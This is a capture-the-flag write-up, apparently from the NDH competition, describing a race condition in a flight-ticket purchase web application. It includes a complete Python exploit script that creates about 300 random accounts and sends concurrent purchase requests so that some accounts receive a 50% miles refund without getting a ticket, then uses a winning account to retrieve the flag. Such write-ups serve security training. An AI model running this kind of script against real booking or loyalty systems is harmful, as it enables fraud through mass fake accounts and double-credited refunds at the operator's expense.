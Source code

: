 # Exploit

## Description

The goal of this challenge to achieve a race condition. Indeed, the
application allows you to buy flight tickets, if you have never bought a
ticket you have the right to discounted tickets where 50% of the price will be
refunded.  
The race condition is during the ticket purchase process.

## Exploitation Method

In order to win the race condition, it is necessary to buy at the same time
the promotional ticket that interests us (here the one to go to Dubai because
50% of its price + our 1000 miles will allow us to buy the ticket for Las
Vegas).  
So we have to create a large number of users (more than the number of tickets
available) then launch a purchase request at the same time, some of the users
will enter in the purchase process, receive the promotion but can not buy a
ticket because there will be no more tickets available.  
Users who have won the race will have a balance of 1450 miles and can buy the
ticket for Las Vegas.

## Exploitation script

```  
# coding: utf-8

from threading import Thread  
import requests  
import string  
from random import *  
import sys  
import re  
import time

allchar = string.ascii_letters + string.digits

class monThread(Thread):

   ###  
   ### Initiation d'un thread avec création d'un utilisateur unique puis
connexion pour obtenir un cookie valide  
   ###  
   def __init__(self, ip, port):  
       Thread.__init__(self)  
       self.username ="".join(choice(allchar) for x in range(randint(8, 12)))  
       self.password = "".join(choice(allchar) for x in range(randint(8, 12)))  
       self.target_url = "http://" + ip + ":"  + str(port) + "/"  
       r1 = requests.post(self.target_url + "register.php", data = {"rUsername":self.username, "rPassword":self.password, "rPassword2":self.password})  
       r2 = requests.get(self.target_url)  
       rCookie = requests.utils.dict_from_cookiejar(r2.cookies)  
       self.cookie = rCookie.get(rCookie.keys()[0])  
       r3 = requests.post(self.target_url + "login.php", data = {"username":self.username, "password":self.password}, cookies = {"PHPSESSID":self.cookie})

   ###  
   ### On achète le billet 12 (car en promo à 900 donc +450 miles si race
condition ok)  
   ###  
   def run(self):  
       r4 = requests.post(self.target_url + "myairline/buy_ticket.php", cookies = {"PHPSESSID":self.cookie}, data = {"idFlightPost":12})

   def getMilesIfCanFlag(self):  
       r5 = requests.get(self.target_url + "myairline/", cookies = {"PHPSESSID":self.cookie})  
       regex = r".*Balance : (.*) Miles"  
       strPage = r5.text  
       match = re.search(regex, strPage)  
       self.miles_account = match.group(1)

       if(int(self.miles_account) > 1400):  
           return 1  
       return 0

   def getFlag(self):  
       r7 = requests.post(self.target_url + "myairline/buy_ticket.php", cookies = {"PHPSESSID":self.cookie}, data = {"idFlightPost":7})  
       r6 = requests.get(self.target_url + "myairline/mytickets.php", cookies = {"PHPSESSID":self.cookie})  
       regex = r".*NDH{(.*)}"

       strPage = r6.text  
       match = re.search(regex, strPage)

       return match.group(1)

   def getUsername(self):  
       return self.username

   def getPassword(self):  
       return self.password

def progress(count, total, status=''):  
   bar_len = 60  
   filled_len = int(round(bar_len * count / float(total)))

   percents = round(100.0 * count / float(total), 1)  
   bar = '=' * filled_len + '-' * (bar_len - filled_len)

   sys.stdout.write('[%s] %s%s ...%s\r' % (bar, percents, '%', status))  
   sys.stdout.flush()

def main(ip, port):  
   listThread = []  
   nThreads = 300  
   print "\n"  
   print "###########################"  
   print "User creation in process..."

   for i in range(1, nThreads):  
       thread = monThread(ip, port)  
       listThread.append(thread)  
       progress(i+1, nThreads)

   print ""  
   print "Done !"  
   print "###########################"  
   print ""  
   print "###########################"  
   print "All threads are trying to buy the discounted ticket for Dubai worth
900 miles \nin order to cause a race condition and get the promotion (450
miles) without buying the ticket..."  
   for i in range(0, nThreads-1):  
       listThread[i].start()

   j = 0  
   flag = ""  
   username = ""  
   password = ""  
   cptWinner = 0  
   for i in range(0, nThreads-1):  
       if(listThread[i].getMilesIfCanFlag()):  
           if(j == 0):  
               flag = listThread[i].getFlag()  
               username = listThread[i].getUsername()  
               password = listThread[i].getPassword()  
           j += 1  
           cptWinner += 1

       listThread[i].join()

   print ""  
   print str(cptWinner) + " account(s) won the race!"  
   print ""

   if flag != "":  
       print "Using the first one to get the flag..."  
       print "Username : " + username  
       print "Password : " + password  
       print "Flag is : NDH{" + flag + "}"  
   else:  
       print "Cannot get the flag :("

   print "###########################"

if __name__ == '__main__':  
   print "______                ___              _           _ _____ _
___  ___           _     _            "  
   print "| ___ \              / _ \            (_)         | |_   _| |        |  \/  |          | |   (_)           "  
   print "| |_/ /__ _  ___ ___/ /_\ \ __ _  __ _ _ _ __  ___| |_| | | |__   ___| .  . | __ _  ___| |__  _ _ __   ___ "  
   print "|    // _` |/ __/ _ \  _  |/ _` |/ _` | | '_ \/ __| __| | | '_ \ / _ \ |\/| |/ _` |/ __| '_ \| | '_ \ / _ \\"  
   print "| |\ \ (_| | (_|  __/ | | | (_| | (_| | | | | \__ \ |_| | | | | |  __/ |  | | (_| | (__| | | | | | | |  __/"  
   print "\_| \_\__,_|\___\___\_| |_/\__, |\__,_|_|_| |_|___/\__\_/ |_|
|_|\___\_|  |_/\__,_|\___|_| |_|_|_| |_|\___|"  
   print "                            __/ |                                                                          "  
   print "                           |___/
"

   if(len(sys.argv) >= 2 ):  
       main(sys.argv[1], sys.argv[2])  
   else:  
       print ''  
       print 'Usage: exploit.py IP PORT'

```